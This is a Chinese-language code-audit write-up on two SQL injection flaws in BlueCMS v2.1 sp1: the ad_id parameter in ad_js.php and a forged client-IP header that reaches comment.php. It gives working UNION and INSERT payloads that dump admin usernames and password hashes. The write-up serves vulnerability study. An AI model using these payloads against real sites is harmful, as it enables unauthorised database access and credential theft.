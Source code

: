# 工具及环境
+ bluecms v2.1 sp1
链接：http://pan.baidu.com/s/1dFKLanR 密码：8v1c
+ seay审计系统
链接：http://pan.baidu.com/s/1dENS4KT 密码：rszt
+ 环境
PHP: 5.4.45
MYSQL: 5.5.53


# 注入一
## 审计
用seay审计系统审计一下,定位到/ad_js.php。
![](http://ojp0pjljj.bkt.clouddn.com/bluecms1.jpg)

该条语句为
```php
$ad = $db->getone("SELECT * FROM ".table('ad')." WHERE ad_id =".$ad_id);
```

getone()是自定义的函数，用来查询数据库，代码如下：
```php
function getone($sql, $type=MYSQL_ASSOC){
  $query = $this->query($sql,$this->linkid);
  $row = mysql_fetch_array($query, $type);
  return $row;
}
```
回到ad_js.php
```php
"SELECT * FROM ".table('ad')." WHERE ad_id =".$ad_id
```
可见这里的变量 $ad_id 没有单引号保护。接下来看看这个变量的来源。
![](http://ojp0pjljj.bkt.clouddn.com/bluecms2.jpg)

```php
$ad_id = !empty($_GET['ad_id']) ? trim($_GET['ad_id']) : '';
```
若通过GET获得ad_id则去除它两边的空白字符，否则为空。在获得了ad_id值后，接下来就直接将$ad_id送入了查询语句，没有做任何过滤，因此这里存在注入。

## 利用
+ 先查询列数

    /ad_js.php?ad_id=1 +UNION +SELECT+1,2,3,4,5,6
    报错

![](http://ojp0pjljj.bkt.clouddn.com/bluecms3.jpg)

    ad_js.php?ad_id=1 +UNION +SELECT+1,2,3,4,5,6,7,8
    报错

![](http://ojp0pjljj.bkt.clouddn.com/bluecms4.jpg)

    ad_js.php?ad_id=1+UNION+SELECT+1,2,3,4,5,6,7
    无报错，且查看源代码发现数字7有回显。
![](http://ojp0pjljj.bkt.clouddn.com/bluecms6.jpg)

+ 提取数据
利用元数据表爆出表名
```
    ad_js.php?ad_id=1+UNION+SELECT+1,2,3,4,5,6,GROUP_CONCAT(table_name) from information_schema.tables where table_schema=database()
```
![](http://ojp0pjljj.bkt.clouddn.com/bluecms9.jpg)

+ 爆出字段

    ad_js.php?ad_id=1 +UNION +SELECT+1,2,3,4,5,6,GROUP_CONCAT(column_name) from information_schema.columns where table_name=0x626c75655f61646d696e
![](http://ojp0pjljj.bkt.clouddn.com/bluecms10.jpg)
+ 获取用户名密码

    ad_js.php?ad_id=1 +UNION +SELECT+1,2,3,4,5,6,GROUP_CONCAT(admin_name,0x3a,pwd) FROM blue_admin  
![](http://ojp0pjljj.bkt.clouddn.com/bluecms10.jpg)

# 注入二
## 审计
函数定位：
```php
function getip()
{
	if (getenv('HTTP_CLIENT_IP'))
	{
		$ip = getenv('HTTP_CLIENT_IP');
	}
	elseif (getenv('HTTP_X_FORWARDED_FOR'))
	{ //????????????????????????????ip ???
		$ip = getenv('HTTP_X_FORWARDED_FOR');
	}
	elseif (getenv('HTTP_X_FORWARDED'))
	{
		$ip = getenv('HTTP_X_FORWARDED');
	}
	elseif (getenv('HTTP_FORWARDED_FOR'))
	{
		$ip = getenv('HTTP_FORWARDED_FOR');
	}
	elseif (getenv('HTTP_FORWARDED'))
	{
		$ip = getenv('HTTP_FORWARDED');
	}
	else
	{
		$ip = $_SERVER['REMOTE_ADDR'];
	}
	return $ip;
}
```
直接获取了ip，并没有验证IP格式，因此我们可以伪造ip。查看一下有哪些位置调用了 getip() ，
![](http://ojp0pjljj.bkt.clouddn.com/bluecms13.jpg)

## comment.php页面
其中有如下代码

    $sql = "INSERT INTO ".table('comment')." (com_id, post_id, user_id, type, mood, content, pub_date, ip, is_check) VALUES ('', '$id', '$user_id', '$type', '$mood', '$content', '$timestamp', '".getip()."', '$is_check')";
    $db->query($sql);

可以看到，这里执行了INSERT语句，且调用了getip()，这里存在注入。

## 利用
这是目前的留言板：
![](http://ojp0pjljj.bkt.clouddn.com/bluecms17.jpg)

在burp截包后，post参数如下：
![](http://ojp0pjljj.bkt.clouddn.com/bluecms16.jpg)
所以

    user_id=2
    id=6 即 post_id=6 对应发表留言的文章id
    type=1
    mood=6 （这个无关紧要）

为了能让把管理员账号和密码回显出来，我们不能直接在getip()的位置上直接去查询。在前面的sql语句中，content变量是会回显到页面上的，这里利用这个位置去构造payload。

payload如下：

    1','1'),('','6','2','1','6',(select concat(admin_name,':',pwd) from blue_admin),'1','1

payload分析：1','1')是为了完成第一次插入，之后的（）是为了完成第二次插入，前面的 '','6','2','1','6' 是与第一个插入语句的参数相对应。接下来，我们把查询到的账号密码放在了第六个参数即content位置，这样能实现回显。而最后的 '1','1  是要满足列数相等否则会出错，同时要注意闭合原本语句中的单引号，其中第一个 1 对应sql语句中的$timestamp，表示发表时间，这个无关紧要。

所以这样插入后完整的sql语句是：

    $sql = INSERT INTO ".table('comment')." (com_id, post_id, user_id, type, mood, content, pub_date, ip, is_check)
      VALUES ('', '$id', '$user_id', '$type', '$mood', '$content', '$timestamp', '1','1'),('','6','2','1','6',(select concat(admin_name,':',pwd) from blue_admin),'1','1', '$is_check')";

![](http://ojp0pjljj.bkt.clouddn.com/bluecms18.jpg)
Forward后 注入成功。
![](http://ojp0pjljj.bkt.clouddn.com/bluecms20.jpg)
